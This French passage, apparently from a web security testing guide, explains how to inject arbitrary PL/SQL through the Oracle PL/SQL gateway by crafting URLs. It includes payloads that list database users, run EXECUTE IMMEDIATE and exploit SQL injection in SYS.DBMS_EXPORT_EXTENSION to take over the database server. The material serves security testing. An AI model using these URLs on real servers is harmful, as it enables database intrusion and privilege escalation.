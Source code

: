 Notez la présence de FOO dans la chaîne de requête de l'attaquant. Les attaquants peuvent en abuser pour exécuter du SQL arbitraire. Tout d'abord, ils doivent fermer les crochets :

`http://server.exemple.com/pls/dad/orasso.home?);--=BAR`

Cela entraîne l'exécution du PL/SQL suivant :

```sql
..
orasso.home();--=>:);--);
..
```

Notez que tout ce qui suit le double moins (`--`) est traité comme un commentaire. Cette requête provoquera une erreur interne du serveur car l'une des variables de liaison n'est plus utilisée, l'attaquant doit donc la rajouter. En l'occurrence, c'est cette variable de liaison qui est la clé pour exécuter du PL/SQL arbitraire. Pour le moment, ils peuvent simplement utiliser `HTP.PRINT` pour imprimer BAR et ajouter la variable de liaison nécessaire en tant que :1 :

`http://server.exemple.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

Cela devrait renvoyer un `200` avec le mot "BAR" dans le HTML. Ce qui se passe ici, c'est que tout ce qui suit le signe égal - BAR dans ce cas - est la donnée insérée dans la variable de liaison. En utilisant la même technique, il est également possible d'accéder à nouveau à `owa_util.cellsprint` :

`http://www.exemple.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

Pour exécuter du SQL arbitraire, y compris des instructions DML et DDL, l'attaquant insère une exécution immédiate :1 :

`http://server.exemple.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Notez que la sortie ne sera pas affichée. Cela peut être exploité pour exploiter tous les bogues d'injection PL/SQL appartenant à SYS, permettant ainsi à un attaquant de prendre le contrôle complet du serveur de base de données principal. Par exemple, l'URL suivante tire parti des failles d'injection SQL dans `DBMS_EXPORT_EXTENSION`

```txt
http://www.exemple.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

### Évaluation d'applications Web PL/SQL personnalisées

Lors des évaluations de sécurité de la boîte noire, le code de l'application PL/SQL personnalisée n'est pas disponible, mais il doit encore être évalué pour les vulnérabilités de sécurité.

#### Test d'injection SQL

Chaque paramètre d'entrée doit être testé pour les défauts d'injection SQL. Ceux-ci sont faciles à trouver et à confirmer. Les trouver est aussi simple que d'intégrer un guillemet simple dans le paramètre et de vérifier les réponses d'erreur (qui incluent les erreurs 404 Not Found). La confirmation de la présence de l'injection SQL peut être effectuée à l'aide de l'opérateur de concaténation.
